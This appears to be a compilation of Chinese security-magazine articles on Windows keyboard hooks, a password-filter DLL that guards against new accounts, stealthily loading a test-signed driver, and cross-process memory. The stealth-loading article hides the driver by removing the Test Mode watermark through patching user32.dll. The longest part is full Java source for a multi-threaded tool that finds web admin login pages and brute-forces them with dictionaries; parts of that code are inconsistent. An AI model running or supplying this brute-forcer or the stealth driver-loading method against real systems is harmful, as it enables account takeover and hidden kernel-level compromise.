- pData：若设置为 NULL，则表示原始数据缓冲区大小，不然则是一个指定大小的缓冲区地址，用以存放原始数据信息
- size：返回即数据缓冲区大小
- sizeHeader：RAWINPUTHEADER 结构体大小

下面给出的部分代码即通过上述函数读取原始数据信息并输出。

```cpp
GetRawInputData((HRAWINPUT)lParam, RID_INPUT, NULL, &bufferSize, sizeof(RAWINPUTHEADER));

LPBYTE dataBuffer = new BYTE[bufferSize]; // 分配指定的缓冲区大小

// 获取原始输入数据，读入 dataBuffer
GetRawInputData((HRAWINPUT)lParam, RID_INPUT, dataBuffer, &bufferSize, sizeof(RAWINPUTHEADER));

RAWINPUT* raw = (RAWINPUT*)dataBuffer;

// Get the virtual key code of the key and report it
USHORT virtualKeyCode = raw->data.keyboard.VKey;

USHORT keyPressed = raw->data.keyboard.Flags & RI_KEY_BREAK ? 0 : 1;

WCHAR text[128];

swprintf_s(text, 128, L"Raw Input: %X (%d)\n", virtualKeyCode, keyPressed);
```

通过上面的代码，我们已经获取到了设备输出的原始信息。下面我们需要通过函数 GetRawInputDeviceInfo 来判断输出的原始信息来自哪个键盘设备。现假设按下的键为数字键盘值 7 且来自设备 A 时，拦截此信息即不写入记事本，具体代码如下：

```cpp
// 为键盘设备名准备缓冲区大小
GetRawInputDeviceInfo(raw->header.hDevice, RIDI_DEVICENAME, NULL, &bufferSize);

WCHAR* stringBuffer = new WCHAR[bufferSize];

// 将设备名读入缓冲区 stringBuffer
GetRawInputDeviceInfo(raw->header.hDevice, RIDI_DEVICENAME, stringBuffer, &bufferSize);

// 判断读入的值是否符合下述规则
if (virtualKeyCode == 0x67 && wcscmp(stringBuffer, L"A") == 0)
    blockNextHook = TRUE;
else
    blockNextHook = FALSE;
```

### 键盘钩子 APIs 实现消息拦截

借助 SetWindowsHookEx 函数实现消息的拦截，SetWindowsHookEx 函数带 4 个参数，第一个参数指定钩子的类型，本文设置为 WH_KEYBOARD；第二参数为钩子函数的入口地址；第三个参数为函数所在模块的句柄；第四个参数指定 hook 目的线程，这里设置为 0，即拦截整个系统消息。

通过钩子函数 KeyboardProc(int code, WPARAM wParam, LPARAM lParam) 捕获键盘消息，再调用 SendMessage(hwndServer, WM_HOOK, wParam, lParam) 函数将键盘消息送到主窗口程序，其中返回的 code 值若是一个大于或等于零的值，则表示发生了正常的键盘事件，wParam 和 lParam 分别存键盘虚拟码及键被按下还是松开，以及是否按下的键是一个系统键。

```cpp
case WM_HOOK:
{
    if (blockNextHook) {
        swprintf_s(text, 128, L"Keyboard event: %X (%d) is being blocked!\n",
            virtualKeyCode, keyPressed);
        OutputDebugString(text);
    }
    return 1;
}
```

### Raw Input 及键盘过滤组合技术

由上述分析可知，在窗口类中注册原始输入设备并启动键盘钩子函数，使其分别向窗口类的过程处理函数 WndProc() 发送 WM_INPUT、WM_HOOK 消息，函数 WndProc() 根据消息类别分别进行各自处理，WM_INPUT 决定是否将此按键消息写入记事本，而 WM_HOOK 则根据 WM_INPUT 的处理结果决定是否进行消息过滤。显然，上述代码是在比较理想化的情况下才能很好地完成多键盘选择性控制。因为当短时间内出现大量的击键消息时，WM_INPUT、WM_HOOK 消息很可能不是成对出现的。假设出现如下场景：

```text
Raw Input: 43 (1)    Hook: 43 (1)

Raw Input: 4B (1)    Raw Input: 55 (1)

Hook: 4B (1)         Hook: 55 (1)
```

很显然，若运行前面编写的代码则会出现“4B”消息未拦截的情况。这里我们可以采用 FIFO 思想，通过 C++ 提供的容器方式解决上述问题，每次出现 WM_INPUT 消息时，系统暂不将结果赋予全局变量，而是将其 push 到队列中，具体代码如下所示：

```cpp
case WM_INPUT:
{
    if (virtualKeyCode == 0x67 && wcscmp(stringBuffer, numericKeyboardDeviceName) == 0)
        decisionBuffer.push_back(TRUE);
    else
        decisionBuffer.push_back(FALSE);
}
```

在 WM_HOOK 消息中，取出队列中的处理结果再进行后续处理。

```cpp
case WM_HOOK:
{
    BOOL blockThisHook = FALSE;

    if (!decisionBuffer.empty()) {
        blockThisHook = decisionBuffer.front();
        decisionBuffer.pop_front();
    }

    if (blockThisHook) {
        // ...
        return 1;
    }
}
```

至此，我们已经分析了两种情形，分别为 WM_INPUT、WM_HOOK 成对出现和 WM_INPUT 连续出现后再出现 WM_HOOK 消息。两种方式均为 WM_INPUT 早于 WM_HOOK 出现，虽然可能 WM_INPUT 晚于 WM_HOOK 出现的概率极低，但也可能会出现偶然现象，此时我们如果仍旧采用上述代码实现，就无法按照 WM_INPUT 消息给出的控制指令执行下步任务，导致出现异常。为了准确执行控制指令，我们可以使用 PeekMessage 函数等待 WM_INPUT 消息，然后再判断消息 code 是否一致，若一致再根据指令判断是否 hook。这种方式看似能够实现上述问题，但若出现消息丢失情形的话，PeekMessage 方法可能会出现死等待。如我们按下一个“AltGr”键时，hook 消息认为其是一个 Ctrl+Alt 组合键，hook 消息会产生两个消息，分别为“Ctrl”(11)+“Alt”(12)，然而 Raw Input 消息却仅仅发出一个“AltGr”(12)，此时即出现消息不对称。为了解决此问题，我们需要设定一个超时时间的阈值，超出阈值时间即放弃等待。具体实现方式请参照源代码附件，本文不再给出。

### 小结

本文主要介绍了 Raw Input 输入及键盘钩子技术的组合用法，实现多键盘输入信号的选择性控制；通过 Raw Input 技术判断消息来源，匹配事先设定的规则后，将控制指令保存到一个全局迭代容器内，然后利用 hook 技术捕获 WM_HOOK，并通过 SendMessage 方式将 WM_HOOK 消息发送给主窗口，再在主窗口过程处理函数解析 WM_INPUT 和 WM_HOOK 消息。后续的具体逻辑处理读者可以参考附件源代码，也可以从 stevemesser—“Using Raw Input from C# to handle multiple keyboards”和 AntoineAubry—“Using multiple keyboards with different layouts on the same machine”文章中了解更多关于 Raw Input 技术。

## 利用密码过滤器拦截添加用户

文/图 李旭昇

无论在 PC 还是服务器上，新建用户都是较为可疑的行为。许多安全软件已经对其进行拦截，但经过测试，大多数只过滤运行 net.exe 时的命令行。对于通过 API 函数 NetUserAdd 添加用户则无能为力。这样就有一个明显的漏洞，黑客可以通过 VBS 或者上传一个小程序来创建用户。

密码过滤器（Password Filter）正好可以填补这一漏洞。简单地说，密码过滤器是一个 DLL，它导出的 PasswordFilter 和 PasswordChangeNotify 回调会分别在密码创建/修改前后被 LSA 调用。如果 PasswordFilter 拒绝当前操作，则密码创建/修改失败。我们可以在该函数内询问用户是否允许添加用户。代码如下：

```cpp
#include <Ntsecapi.h>
#include <Wtsapi32.h>
#include <iostream>
#include <string>
#pragma comment(lib, "Netapi32.lib")
#pragma comment(lib, "Wtsapi32.lib")
using namespace std;

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport)
BOOLEAN __stdcall PasswordFilter(
    _In_ PUNICODE_STRING AccountName,
    _In_ PUNICODE_STRING FullName,
    _In_ PUNICODE_STRING Password,
    _In_ BOOLEAN SetOperation)
{
    DWORD sessionId = WTSGetActiveConsoleSessionId();
    DWORD ret = 0;
    wstring MsgTitle = L"用户密码变动";
    wstring Msg = L"用户 " + wstring(AccountName->Buffer) + L" 的密码正在被修改/创建，\n\n如果您未在 10 秒内作出选择，该操作将被拒绝。";
    BOOL bSuccess = WTSSendMessage(
        0,
        sessionId, (LPWSTR)MsgTitle.c_str(), 2 * MsgTitle.length(),
        (LPWSTR)Msg.c_str(), 2 * Msg.length(),
        MB_YESNO, 15, &ret, true);

    // 只有明确的允许才返回 true
    if (bSuccess && ret == IDYES) return true;
    // 其他情况均返回 false
    return false;
}
```

PasswordFilter 函数有四个参数，其中前三个为用户名、用户全名和密码。第四个参数为 SetOperation，MSDN 里说如果它为 true，则密码正在被添加，否则就在被修改，但事实上它总是 true。不过我们并不需要区分添加新用户和修改用户密码，这两种行为都要被监控，否则黑客可以将某个较少使用的用户据为己有，并隐秘地进入系统。

PasswordFilter 会弹出一个对话框询问是否允许操作。注意，PasswordFilter 被 lsass.exe 加载，所以一定运行在 Session 0 中。直接弹出对话框用户是看不到的，所以需要用 WTSGetActiveConsoleSessionId 获得当前活动 Session，并用 WTSSendMessage 函数在该 Session 里弹出对话框。这里 WTSSendMessage 设置一个 Timeout 是很有必要的，否则如果该用户一直不做出选择，PasswordFilter 函数就无法返回，那么涉及用户的操作都无法进行。比如一个程序在启动时需要确定登录的用户，那么它毫无疑问会卡住，这对于无人值守的服务器来说，是不能接受的。

安装 PasswordFilter 也十分简单，只需将 DLL 复制到 \Windows\System32 下，并将 DLL 的名字（不含后缀）添加到 HKLM\SYSTEM\CurrentControlSet\Control\Lsa 下的 Notification Packages 键值即可。

```bat
cd /d %~dp0
copy /Y PasswordFilter.dll %systemroot%\SYSTEM32
reg ADD HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "Notification Packages" /t REG_MULTI_SZ /d "PasswordFilter" /f
pause


```

重启后尝试添加用户，如图 1 所示，PasswordFilter 弹出对话框询问。
图1

由于 PasswordFilter 可以直接得到密码明文，所以除了用来监控用户创建，还可以对密码的复杂度做一些规定。比如密码最少为 8 位，必须是数字和字母的组合等等，而这正是 PasswordFilter 机制的本意，有兴趣的读者可以自行研究。

## 瞒天过海加载“未签名”驱动

文/图 李旭昇

自 Vista 起，64 位版本 Windows 要求内核驱动必须被签名才能加载。如果开启测试模式（Test Mode），则可以加载带有测试签名的驱动。但桌面右下角会有三行小字，提示当前正运行在测试模式下。本文提供一种思路，对驱动进行测试签名，并将该水印去除，从而隐蔽地加载“未签名”驱动。整个过程只需要一个批处理来实现。

```bat
cd /d %~dp0
cd Tools

rem 生成并添加证书
makecert.exe -r -pe -ss PrivateCertStore -n "CN=TestCertforWDK" TestCert.cer
certmgr.exe -add testcert.cer -s -r localMachine root
certmgr.exe -add testcert.cer -s -r localMachine trustedpublisher

rem 用证书给驱动签名
SignTool.exe sign /a /s PrivateCertStore ../TestDriver.sys

rem 开启测试模式
bcdedit /set testsigning on

rem 移除桌面下方“测试模式”水印
RemoveWatermarkX64.exe -silent
```

```bash
cd ..
```

```bat
rem 加载驱动
sc create TestDriver binPath= %~dp0TestDriver.sys type= kernel start= auto


```

首先我们生成一个证书，将其导入并且用它给 TestDriver.sys 签名。接着开启测试模式，移除桌面水印，将驱动设为自动启动。移除水印需要使用 deepxw 的工具 RemoveWatermarkX64.exe。以 `-silent` 作为参数将不提示信息，静默运行，修改完成后自动退出。如图 1 所示，重启后 TestDriver.sys 自动加载，并监控所有新进程，此时桌面右下角没有任何水印。
图 1 驱动成功加载，桌面右下角无水印

不过 RemoveWatermarkX64 工具是如何去除桌面右下角水印的呢？逆向分析表明，User32.dll 负责显示水印，而水印文本就是其中的一个字符串资源，所以只需将水印资源清空，或者直接给相关代码打补丁即可。需要注意的是，Windows 7 以后的版本采用了 MUI 技术，这些字符串资源不在 User32.dll 内，而是在 `\System32\zh-CN\User32.dll.mui` 内。下面给出直接 Patch User32.dll（这是 RemoveWatermarkX64 的默认做法）的伪代码。

```c
ShellExecute("takeown /f C:\\Windows\\System32\\user32.dll");
ShellExecute("icacls C:\\Windows\\System32\\user32.dll /grant %username%:F");
ShellExecute("icacls C:\\Windows\\System32\\user32.dll /grant *S-1-1-0:(F)");
OriginalFile = "C:\\Windows\\System32\\user32.dll";
CopyFile(OriginalFile, "C:\\Windows\\System32\\user32.dll.backup");
PatchFile = "C:\\Windows\\System32\\user32.dll.tmp";
CopyFile(OriginalFile, PatchFile);
if (AlreadyPatched(PatchFile)) return;
ApplyPatch(PatchFile);

MoveFileEx(OriginalFile, &TempFile, MOVEFILE_REPLACE_EXISTING);
MoveFileExA(&TempFile, 0, MOVEFILE_DELAY_UNTIL_REBOOT);
MoveFileExA(PatchFile, OriginalFile, MOVEFILE_REPLACE_EXISTING);


```

由于只有 TrustedInstaller 账户能对 User32.dll 进行写操作，所以必须先用 takeown 和 icacls 命令赋予当前用户完全控制（F）权限。随后程序将 User32.dll 复制两份，一份作为备份，另一份用来破解。破解后，程序将原始的 User32.dll 移动到该卷下的一个临时文件，并且将破解后的文件移动到 `\System32\User32.dll`，便完成了破解。读者可能会问，User32.dll 正在被使用，可以移动吗？答案是肯定的，不过只能在同一个卷内移动（移动到其它卷需要先复制文件，再删除旧文件，所以做不到）。如图 2 所示，explorer.exe 装载的 User32.dll 变成了 `C:\_@4B90.tmp`。这也是上述伪代码中将 `C:\_@4B90.tmp` 标记为重启删除的原因——它才真正正在被使用，不能删除！
图 2 User32.dll 的马甲 C:\_@4B90.tmp

从系统安全角度考虑，测试模式下可以加载不可信驱动，是十分严重的威胁。但从某些论坛中的帖子来看，许多用户在看到桌面右下角的水印时，会选择用工具将其清除，而不是考虑它为什么出现、有哪些影响，更不会用 bcdedit 命令关闭测试模式。这就涉及“安全意识”的问题。当然，责任并不在用户身上，事实上，微软或许应该考虑通过更“严肃”的方式提醒用户潜在的危险。比如像 UAC 一样，在加载测试签名的驱动前询问用户是否允许。安全软件也应该更谨慎地对待测试模式，比如在为系统安全性打分时，对测试模式进行适当的罚分。

以上只是我的一点体会，如有不当，还望批评指正。

## Java 实现 Web 后台弱口令暴力破解

文/图 倒霉蛋儿

实现后台暴力破解一般会采用访问网络比较方便的语言，如 Python、Java。由于我不会 Python，所以本程序由 Java 编写。Java 具有很好的跨平台性和多线程稳定性，开发环境为 `jdk1.7.0 + MyEclipse 10.0`，大致思路如下。

- 首先获取网站的编码格式，如 GB2312、UTF-8 等。
- 根据网站，通过字典扫描常用的后台页面地址，若返回 200，说明该页面有效。
- 解析登录页面，得到提交表单的地址以及 form 的 HTML 代码，然后继续解析 input，得到 name 属性以及隐藏域等。
- 若解析成功，将这些参数连接起来，发送 POST 请求，判断返回信息来验证是否登录成功。
- 若解析失败，直接从数据库里查询登录地址，以及登录参数等信息，然后提交进行登录。

首先要做的是扫描后台登录页面，把后台地址、提交地址、登录参数等存入 SQLite 数据库。由于时间有限，我只收集了 11 条记录。
图 1

把字典按照线程数平均分块，测试链接是否能访问，从而得到登录地址，代码如下。

```java
public class GetAdminURL
{
    // 解析HTML的表单，获取登录参数
    public static String[] ParseLogCheck(String sAdminURL, String encode, int timeout)
    {
        String sHTML = HttpRequest.sendGet(sAdminURL, null, encode, 2000);
        Document document = Jsoup.parse(sHTML);
        org.jsoup.select.Elements elements = document.getElementsByTag("form");
        String action = null, login = null, password = null, submit = null, submitval = null,
               hiddenname = "", hiddenval = "", params = null;

        String[] sInfo = new String[2];
        action = elements.attr("action");
        elements = document.getElementsByTag("input");
        for (Element element : elements)
        {
            if (login == null && element.attr("type").equals("text")) // 获得账号框
            {
                login = element.attr("name");
            }
            else if (password == null && element.attr("type").equals("password")) // 获得密码框
            {
                password = element.attr("name");
            }
            else if (submit == null && submitval == null && element.attr("type").equals("submit")) // 获得提交按钮
            {
                submit = element.attr("name");
                submitval = element.attr("value");
            }
            else if (element.attr("type").equals("hidden")) // 可能有隐藏域
            {
                hiddenname = element.attr("name");
                hiddenval = element.attr("value");
            }
        }

        if (login != null && password != null && submit != null)
        {
            params = login + "=%user%&" + password + "=%pass%&" + submit + "="
                   + UrlDeal.encodeURIComponent(submitval) + "&" + hiddenname + "=" + hiddenval;
        }

        String[] sTmp = sAdminURL.split("/");
        String sRoot = sAdminURL.replace(sTmp[sTmp.length - 1], "");
        if (action.contains("http://")) // 如果action直接就是url，则不需要根路径
        {
            sRoot = "";
        }

        if (action.contains("?")) // 如果提交地址含有?，则只取地址
        {
            sTmp = action.split("[?]");
            sInfo[0] = sRoot + sTmp[0];
        }
        else
        {
            sInfo[0] = sRoot + action;
        }
        sInfo[1] = params;
        return sInfo;
    }

    // 检测管理页面，登录入口找到后返回String数组，0号存登录入口，1号存登录参数
    public static String[] scanUrl(final String website, final LinkedList<Map<String, String>> dics,
                                   int ThreadCount, final String encode, final int timeout)
    {
        final String temp[] = new String[2];
        final int length = dics.size(); // 所有记录的长度
        int part = length / ThreadCount, rem = length % ThreadCount;
        // 每一个线程分配字典的数量
        final CountDownLatch threadsSignal = new CountDownLatch(ThreadCount);

        for (int i = 1; i <= ThreadCount; i++)
        {
            final int low = part * (i - 1);
            final int up;
            if (i < ThreadCount)
            {
                up = part * i - 1;
            }
            else // 最后一个线程，把剩下的字典都分给他
            {
                up = part * i - 1 + rem;
            }

            new Thread() {
                @Override
                public void run()
                {
                    super.run();
                    for (int i = low; i <= up; i++)
                    {
                        String dic, url, login_check, param;
                        dic = dics.get(i).get("adminURL").toString();
                        // 获取后台管理页面
                        url = website + dic;
                        System.out.println("正在检测:" + url + "(" + (i + 1) + "/" + dics.size() + ")");
                        if (HttpRequest.Isvalid1(url))
                        {
                            System.out.println("检测到管理页面: " + url + "存在");
                            String[] sTmp = ParseLogCheck(url, encode, timeout);
                            // 通过解析管理页面登录，获得登录提交地址
                            login_check = sTmp[0];
                            param = sTmp[1];
                            if (HttpRequest.Isvalid1(login_check) && param != null)
                            // 检测是否有效
                            {
                                System.out.println("检测到登录入口: " + login_check + "存在");
                                temp[0] = login_check;
                                temp[1] = param;
                                System.out.println("成功分析出登录参数！");
                                System.out.println("提交信息为:" + login_check + "?" + param);
                                break;
                            } // 无效直接从数据库提取
                            else
                            {
                                System.out.println("分析提取失败，准备从数据库检索登录信息");
                                login_check = website + dics.get(i).get("adminCHECK_LOGIN").toString();
                                if (HttpRequest.Isvalid1(login_check) == true)
                                {
                                    System.out.println("检测到登录入口: " + login_check + "存在");

                                    param = dics.get(i).get("adminLOGIN_PARAM").toString();

                                    temp[0] = login_check;
                                    temp[1] = param;
                                    break;
                                }
                            }
                        }
                    }
                    // System.out.println(Thread.currentThread().getName() + "结束.还有" + threadsSignal.getCount() + " 个线程");
                    threadsSignal.countDown(); // 线程结束时计数器减1
                }
            }.start();
        }

        try
        {
            threadsSignal.await();
        }
        catch (InterruptedException e)
        {
            e.printStackTrace();
        }
        return temp;
    }
}


```

得到登录地址后，解析 HTML 代码来构造登录参数。我们首先分析登录页面，form 表单的 action 属性里，通过抓包可知，它就是表单的提交地址；前两个 input 的 name 属性和参数的 `login_name`、`login_pass` 对应；第三个 `input(type=submit)` 的 value 跟参数的 Submit 对应（中文要转换成 URL 编码）。

当然，这种自动获取登录参数的成功率非常低，因为不同网站登录页面都是不一样的，不一定能成功获得各种控件的属性。若解析失败了，就需要通过字典来查找了。如图 2 和图 3 所示。
图 2
图 3

得到了提交地址和登录参数，现在就可以提交表单进行暴力破解了。同样，也把登录错误的返回信息放到 SQLite 里，如果 POST 后返回的 HTML 代码中含有密码错误、无效之类的信息，就可以断定登录失败，接着尝试下一条账号密码。模块代码如下：

```java
public class TryLogin
{
    LinkedList<String> sUsername, sPassword, sErrorList;
    String sURL, Param;
    int ThreadCount, timeout;
    String Encode;
    final Boolean successedquit; // 成功就退出
    Boolean isstop = false; // 为真时线程结束，停止破解

    TryLogin(String sURL, String Param, LinkedList<String> sUserName,
             LinkedList<String> sPassword, LinkedList<String> sErrorList,
             int ThreadCount, String Encode, int timeout, Boolean successedquit)
    {
        this.sUsername = sUserName;
        this.sPassword = sPassword;
        this.sURL = sURL;
        this.Param = Param;
        this.ThreadCount = ThreadCount;
    }
}
```

```java
this.Encode = Encode;
this.timeout = timeout;
this.sErrorList = sErrorList;
this.succeedstop = succeedstop;
}

Boolean IsError(String sInfo)
{
    for (String str : sErrorList)
    {
        if (sInfo.contains(str))
        {
            return true;
        }
    }
    return false;
}

LinkedList<Map<String, String>> DoLogin()
{
    final LinkedList<Map<String, String>> linkedList = new LinkedList<Map<String, String>>();
    final LinkedList<Map<String, String>> userpass = new LinkedList<Map<String, String>>();

    for (String username : sUsername)
    {
        for (String password : sPassword)
        {
            Map<String, String> map = new HashMap<String, String>();
            map.put("username", username);
            map.put("password", password);
            linkedList.add(map);
        }
    }

    final int length = linkedList.size(); // 所有记录的长度
    int part = length / ThreadCount, rem = length % ThreadCount;
    // 每一个线程分配字典的数量
    final CountDownLatch threadsSignal = new CountDownLatch(ThreadCount);

    for (int i = 1; i <= ThreadCount; i++)
    {
        final int low = part * (i - 1);
        final int up;

        if (i < ThreadCount)
        {
            up = part * i - 1;
        }
        else
        { // 最后一个线程，把剩下的字典部分给他
            up = part * i - 1 + rem;
        }

        new Thread() {
            @Override
            public void run()
            {
                super.run();
                // System.out.println(low+"~"+up);
                for (int i = low; i <= up; i++)
                {
                    if (isstop) stop();

                    String username = linkedList.get(i).get("username").toString(),
                           password = linkedList.get(i).get("password").toString();

                    String temp = "";
                    if (Param.contains("%user%"))
                        temp = Param.replace("%user%", username);
                    if (temp.contains("%pass%"))
                        temp = temp.replace("%pass%", password);

                    String webContent = HttpRequest.sendPost(sURL, temp, Encode, timeout); // 返回信息
                    System.out.println(webContent);

                    if (webContent.length() <= 0 || IsError(webContent))
                    // 返回为空或者返回错误列表中的信息判断为登陆失败
                    {
                        System.out.println("尝试" + username + "/" + password + "失败" + "(" + (i + 1) + "/" + length + ")");
                    }
                    else
                    {
                        System.out.println("尝试" + username + "/" + password + "成功" + "(" + (i + 1) + "/" + length + ")");
                        Map<String, String> map = new HashMap<String, String>();
                        map.put("username", username);
                        map.put("password", password);
                        map.put("info", webContent);
                        userpass.add(map);

                        if (succeedstop) // 破解一个成功就退出
                        {
                            isstop = true;
                            while (threadsSignal.getCount() != 0)
                            {
                                threadsSignal.countDown();
                                try
                                {
                                    sleep(1000);
                                }
                                catch (InterruptedException e)
                                {
                                    // TODO Auto-generated catch block
                                    e.printStackTrace();
                                }
                            }
                            return;
                        }
                    }
                }
                threadsSignal.countDown();
            }
        }.start();
    }

    try
    {
        threadsSignal.await();
    }
    catch (InterruptedException e)
    {
        e.printStackTrace();
    }
    return userpass;
}
}
```

本程序支持自动和手动两种方式破解，自动破解只需要指定“-w”参数，加上网站的域名就可以自动破解，手动破解需要指定提交地址和登录的参数。  
这些功能都是在主函数里实现的，代码如下：

```java
public class main {
    static LinkedList<Map<String, String>> link_url;
    static LinkedList<String> link_username;
    static LinkedList<String> link_password;
    static LinkedList<String> link_error;

    public static Boolean LoadDic()
    {
        DBMethod dbMethod = new DBMethod();
        link_url = dbMethod.LoadAdminURL();
        link_username = dbMethod.LoadUsername();
        link_password = dbMethod.LoadPassword();
        link_error = dbMethod.LoadErrorList();
        dbMethod.CloseConn();
        return (link_url.size() > 0 && link_username.size() > 0 && link_password.size() > 0);
    }

    public static void PrintHelpInfo()
    {
        System.out.println("本程序可以暴力破解网站后台密码，支持自动破解和手动破解两种模式");
        System.out.println("自动破解使用 -w 参数例如：-w http://www.example.com");
        System.out.println("手动破解需要指明 -l -p 参数，l 代表后台提交账号密码的入口，-p 代表登陆提交时的参数");
        System.out.println("例如：action=login&loginlang=login.php?langset=cn&login_name=%user%&login_pass=%pass%&Submit=%E7%99%BB%E5%BD%95");
        System.out.println("参数通过抓包可以得到，然后将账号、密码的值替换成%user%和%pass%");
        System.out.println("通过 -t 指定线程数量建议 5-20 个，根据字典的数量自行选择");
        System.out.println("您还可以通过 -o 来指定超时，默认 3000ms");
        System.out.println("指定 -s 参数时，当破解出一个账户就退出");
    }

    public static void main(String[] args)
    {
        String webSite = null, login_url = null, params = null, Encode;
        int threadcount = 5, timeout = 1000;
        Boolean succeedstop = false;

        if (args.length == 0)
        {
            PrintHelpInfo();
            return;
        }

        for (int i = 0; i < args.length; i++)
        {
            if (args[i].equals("-w"))
            {
                if (i == args.length - 1 || !args[i + 1].contains("http://"))
                {
                    System.out.println("网站格式不合法！例如：http://www.example.com");
                    return;
                }
                webSite = args[i + 1]; // 指定网站
            }
            else
            {
                if (args[i].equals("-l"))
                {
                    if (i == args.length - 1 || !args[i + 1].contains("http://"))
                    {
                        System.out.println("登陆入口格式不合法！例如：http://www.example.com/admin/login/login_check.php");
                        return;
                    }
                    login_url = args[i + 1]; // 指定登陆入口
                }

                if (args[i].equals("-p"))
                {
                    if (i == args.length - 1
                        || !args[i + 1].contains("%user%")
                        || !args[i + 1].contains("%pass%")
                        || !args[i + 1].contains("&"))
                    {
                        System.out.println("登陆参数格式不合法！例如：-p action=login&loginlang=login.php?langset=cn&login_name=%user%&login_pass=%pass%&Submit=%E7%99%BB%E5%BD%95");
                        System.out.println("参数通过抓包可以得到，然后将账号、密码的值替换成%user%和%pass%");
                        return;
                    }
                    params = args[i + 1];
                }
            }

            if (args[i].equals("-t"))
            {
                if (i == args.length - 1 || !Others.isNumeric(args[i + 1]))
                {
                    System.out.println("线程数请输入整数建议 5-20 个，根据字典的数量自行选择");
                    return;
                }
                threadcount = Integer.valueOf(args[i + 1]);
            }

            if (args[i].equals("-o"))
            {
                if (i == args.length - 1 || !Others.isNumeric(args[i + 1]))
                {
                    System.out.println("超时请输入整数默认 3000，根据网络情况选择");
                    return;
                }
                timeout = Integer.valueOf(args[i + 1]);
            }

            if (args[i].equals("-s")) // 破解出一个就自动停止
            {
                succeedstop = true;
            }

            if (args[i].equals("-h"))
            {
                PrintHelpInfo();
                return;
            }
        }

        LoadDic();

        System.out.println("准备载入字典");
        if (LoadDic())
        {
            System.out.println("字典载入成功");
        }
        else
        {
            System.out.println("字典载入失败");
            return;
        }

        System.out.println("准备破解");

        if (webSite != null) // 给定网站自动破解
        {
            Encode = Others.GetEncode(webSite, timeout);
            System.out.println("网站编码为  " + Encode);
            System.out.println("开始自动破解");
            String[] loginURL;
            loginURL = GetAdminURL.ScanUrl(webSite, link_url, threadcount, Encode, timeout);

            if (loginURL != null && loginURL[0] != null && loginURL[1] != null)
            {
                TryLogin tryLogin = new TryLogin(loginURL[0], loginURL[1], link_username,
                    link_password, link_error, threadcount, Encode, timeout, succeedstop);
                LinkedList<Map<String, String>> lined = tryLogin.DoLogin();
                if (lined.size() > 0)
                {
                    System.out.println("破解成功");
                    for (Map<String, String> map : lined)
                    {
                        System.out.println("用户名:" + map.get("username").toString());
                        System.out.println("密码:" + map.get("password").toString());
                        System.out.println("返回信息:" + map.get("info").toString());
                    }
                }
                else
                {
                    System.out.println("破解失败");
                }
            }
            else
            {
                System.out.println("破解失败，原因是未扫描到后台入口");
            }
        }
        else if (login_url != null && params != null) // 自定义入口参数等
        {
            System.out.println("开始指定参数的破解");
            Encode = Others.GetEncode(login_url, timeout);
            System.out.println("网站编码为  " + Encode);
            TryLogin tryLogin = new TryLogin(login_url, params, link_username,
                link_password, link_error, threadcount, Encode, timeout, succeedstop);
            LinkedList<Map<String, String>> lined = tryLogin.DoLogin();
            if (lined.size() > 0)
            {
                ...
            }
        }
    }
}
```

```java
System.out.println("破解成功");
for (Map<String, String> map : lined) {
    System.out.println("用户名:" + map.get("username").toString());
    System.out.println("密码:" + map.get("password").toString());
}
}
else {
    System.out.println("破解失败");
}
}
else {
    System.out.println("给定参数错误！");
}
}
}


```

程序编译好后，用 j2ewiz 这款工具来转换成 EXE 格式的文件，做成控制台即可。下面我们来测试破解 MetInfo，如图 4 所示。
图 4

不过，还有很多网站有防止暴力破解的功能，如 Joomla，多次尝试登录错误就会出现图 5 所示的提示。

> The most recent request was denied because it contained an invalid security token. Please refresh the page and try again.

图 5

还有一些网站，登录有复杂的验证，不只检验账号密码，有的还会加上时间戳、Cookie 之类的，这样的话，只能修改程序，增加相应的参数。

本文只是为了抛砖引玉，没有什么技术含量，仅仅实现了多线程破解，可以自定义参数，指定超时，我们还可以增加很多细节，也没能实现构造字典等高级功能。刚刚学习 Java，代码写得可能不严谨，还望见谅。

## Windows 中的跨进程数据操作

文/图 王晓松

大家都知道，现代操作系统不同进程之间的地址空间是互相隔离的，比如进程 1 和进程 2 同是地址 0x40000000，其对应的内容并不相同。但如果你用过金山游侠，会知道在该软件里，选择一个要挂接的进程，就可以查看被挂接进程的内存，这是如何实现的呢？这就涉及到 Windows 中的跨进程数据操作。

为了搞清楚 Windows 是如何实现跨进程数据操作的，首先我们要搞清 Windows 中进程之间是如何实现隔离的。所谓的隔离，就是两个进程用户空间的隔离（因为每个进程的内核空间是一致的，所以不涉及隔离），如进程 1 与进程 2 中同样是 0x40000000 的地址，其存储的内容并不相同。Windows 实现进程间隔离的实质在于经过页目录/页表映射后，其背后对应的物理内存并不相同，如图 1 所示。
图 1 进程间地址的隔离在于页目录/页表的映射

按说这种设计理念就是为了保证进程之间的独立性：一个进程就像自家院子，管好自己这一摊子就可以了（当然除了公用的部分），但是在 Windows 的实际实现中，往往还会有超出这种规矩的需求，比如进程 1 需要读取/修改进程 2 地址空间中的数据。问题也恰恰在于 Windows 提供了满足这种需求的机制。从根本上说，读取/修改数据就是要读取/修改对应物理内存中的数据，隔离的实质是通过页目录/页表的映射，将同一地址映射为不同的物理地址。即有了页目录/页表的映射机制，导致我们无法定位到真实物理内存中的地址。一个很自然的思路是：如果进程 1 使用进程 2 的页目录/页表，那么不就相当于可以直接读取/修改进程 2 中的内容了吗？实际上，Windows 实现跨进程操作根本的思路也是如此，下面我们看看 Windows 的实现。

